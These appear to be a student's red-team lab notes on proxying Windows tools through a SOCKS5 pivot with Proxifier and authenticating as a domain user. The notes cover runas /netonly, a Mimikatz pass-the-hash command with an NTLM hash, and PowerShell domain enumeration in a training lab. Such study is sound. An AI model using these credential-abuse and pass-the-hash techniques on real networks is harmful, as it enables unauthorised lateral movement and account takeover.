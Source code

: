 
We can also tunnel traffic from our Windows machine using a software utility called [Proxifier](https://www.proxifier.com/).  To create a new proxy entry, go to **Profile > Proxy Servers**.  Click **Add** and enter the relevant details.

![[WINDOWS PROXY SERVER.png]]

When asked if you want to use this proxy by default, select **No**.  But select **Yes** when prompted to go to the **Proxification Rules**.  Here, we tell Proxifier which applications to proxy and under what conditions.

Click **Add** to create a new rule and use the following:

- Name:  Tools
- Applications:  Any
- Target hosts:  10.10.120.0/24;10.10.122.0/24
- Target ports:  Any
- Action:  Proxy SOCKS5 10.10.5.50

![[WINDOWS PROXIFICATION RULE.png]]


To enable authentication to occur over the proxy, an application needs to be launched as a user from the target domain.  This can be achieved using runas /netonly or Mimikatz.

Let's use Active Directory Users and Computers (ADUC) as an example.  The file responsible for launching ADUC is `dsa.msc`, which is actually just a snap-in for `mmc.exe`.  Launch mmc.exe via runas, then go to **File > Add/Remove Snap-in** (or Ctrl + M for short), add the ADUC snap-in, and click OK.


```bash
# tried as administrator cmd.exe on Attacker Desktop - was able to get mmc.exe to run but did not work

PS C:\Users\Attacker> runas /netonly /user:DEV\bfarmer mmc.exe
Enter the password for DEV\bfarmer:
Attempting to start mmc.exe as user "DEV\bfarmer" ...
```


To achieve the same with Mimikatz:
```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
```

  

PowerShell cmdlets that support credential objects can also be used.

```bash


PS C:\Users\Attacker> $cred = Get-Credential
PS C:\Users\Attacker> Get-ADComputer -Server 10.10.122.10 -Filter * -Credential $cred | select DNSHostName

DNSHostName
-----------
dc-2.dev.cyberbotic.io
fs.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io
web.dev.cyberbotic.io
sql-2.dev.cyberbotic.io
wkstn-1.dev.cyberbotic.io